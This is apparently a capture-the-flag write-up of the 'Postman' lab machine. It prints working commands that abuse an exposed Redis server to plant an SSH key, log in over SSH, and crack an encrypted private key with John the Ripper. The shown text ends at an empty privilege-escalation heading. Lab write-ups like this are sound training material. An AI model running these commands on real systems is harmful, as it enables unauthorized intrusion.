









# Postman



## Introduction

Postman pwn exploit relies on a misuse of Redis: the service is open and can be hijacked to push an SSH public key directly into the user directory. An encrypted SSH private key also resides on the machine; once cracked, it grants user access.

The recovered account still has privileges on an old Webmin instance. This version is vulnerable to command injection, allowing for clean escalation to root and complete control of the system.

## Enumeration

Scan nmap



**Redis**

Locate the Redis configuration directory

```sh
┌──(dipeua㉿berthold)-[~]
└─$ redis-cli -h 10.129.245.48
10.129.245.48:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
10.129.245.48:6379>
```

Try [SSH Key Injection](https://hackviser.com/tactics/pentesting/services/redis#ssh-key-injection)

```sh
ssh-keygen -t rsa -f redis_key
(echo -e "\n\n"; cat redis_key.pub; echo -e "\n\n") > key.txt

redis-cli -h 10.129.245.48 flushall
cat key.txt | redis-cli -h 10.129.245.48 -x set ssh_key
redis-cli -h 10.129.245.48 config set dbfilename authorized_keys
redis-cli -h 10.129.245.48 config set dir /var/lib/redis/.ssh
redis-cli -h 10.129.245.48 save
```



## Initial Access

```sh
ssh -i redis_key redis@10.129.245.48
```



An interesting file can be found in `/opt`



```sh
ssh2john id_rsa.bak > hashes
john hashes --wordlist=/opt/rockyou.txt
```



Then we can log into Matt's account with the discovered password



After enumeration, we find the Webmin version and an exploit is available for that version.



## Privilege Escalation

